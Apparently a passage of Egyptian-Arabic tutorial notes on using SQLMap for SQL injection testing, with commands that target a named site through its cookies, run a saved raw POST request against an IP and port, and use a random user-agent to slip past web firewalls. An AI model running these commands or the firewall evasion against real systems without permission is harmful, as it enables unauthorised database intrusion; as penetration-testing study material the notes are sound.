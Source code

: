 #### استغلال الثغرة باستخدام SQLMap
لو عايز تختبر الـ Cookie وتشوف هل فيها SQL Injection، ممكن تستخدم أداة SQLMap بالأمر ده:

```bah
sqlmap -u "http://hossamshady.me" --cookie="session=xyzojidaoif; id=1; csrf-token=fodajifodjaofjadoifjd03909" --dbs
```

#### ملاحظة
- لو كان الـ `id=1` هو الجزء المحتمل فيه الثغرة، الأداة هتحاول تستغلها أو تبحث عن الثغرات المرتبطة.
- التست ممكن ياخد وقت، خاصة لو السيرفر بيستخدم حماية إضافية.
---

# استخدام SQLMap لتخطي جدران الحماية واختبار الثغرات

#### الفكرة
SQLMap بتساعدك في اختبار واكتشاف الثغرات عن طريق تخطي جدران الحماية باستخدام ملفات الطلبات (Requests) وتقنيات خداع.

---

#### شكل الطلب (Request)
الطلب بيتكتب في ملف نصي بالشكل ده:

```
POST /case4.php HTTP/1.1
Host: 94.237.53.113:36168
Content-Length: 10
Content-Type: application/json

{
  "id":"1"
}
```

- **طريقة إنشاء الملف:**
   ```
   nano file.txt
   ```
   بعد كتابة الطلب، احفظ الملف باستخدام `Ctrl+O` ثم `Ctrl+X`.

- **تشغيل SQLMap باستخدام الملف:**
   ```
   sqlmap -r file.txt
   ```

---

#### تقنيات الحماية وخداع جدران الحماية

##### 1. وكيل عشوائي (Random User-Agent)
- لتجنب الحظر عن طريق تغيير الـ User-Agent عشوائيًا:
   ```
   sqlmap -r file.txt --random-agent
   ```
